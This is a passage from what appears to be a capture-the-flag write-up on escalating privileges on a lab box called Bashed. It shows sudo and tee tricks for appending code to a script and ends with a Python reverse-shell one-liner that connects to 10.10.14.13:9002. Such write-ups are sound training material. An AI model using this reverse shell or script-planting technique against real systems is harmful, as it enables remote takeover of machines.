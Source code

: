 ```bash
www-data@bashed:/$ sudo -u scriptmanager echo 'f = open("/root/root.txt","r");print(f.read())'  >> /scripts/test.py
```

But got this error:

```bash
bash: /scripts/test.py: Permission denied
```

Again, with `>` instead of `>>`:

```bash
www-data@bashed:/$ sudo -u scriptmanager echo "a" > /scripts/test.py
bash: /scripts/test.py: Permission denied
```

It's as if it's trying to execute the final part of the command as `www-data`. I googled this and found [an example](https://unix.stackexchange.com/questions/4335/how-to-insert-text-into-a-root-owned-file-using-sudo) using `tee`:

```bash
echo 'f = open("/root/root.txt","r");print(f.read())' | sudo -u scriptmanager tee -a /scripts/test.py
f = open("/root/root.txt","r");print(f.read())
www-data@bashed:/$ sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
f = open("/root/root.txt","r");print(f.read())
```

This worked! However, running the script gives us a permission denied when opening the file:

```bash
www-data@bashed:/$ sudo -u scriptmanager python /scripts/test.py
Traceback (most recent call last):
  File "/scripts/test.py", line 1, in <module>
    f = open("test.txt", "w")
IOError: [Errno 13] Permission denied: 'test.txt'
```

### Editing test.py to get a Shell as Root

So the program does not run as root - but maybe a process running as root is setup to regularly run it?

Linpeas didn't show up a cron job, but I thought I'd take a shot at spawning a shell and hoping the script got executed. I edited it to reuse the shell command from before:

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' | sudo -u scriptmanager tee -a /scripts/test.py
```

I checked that it looked okay:
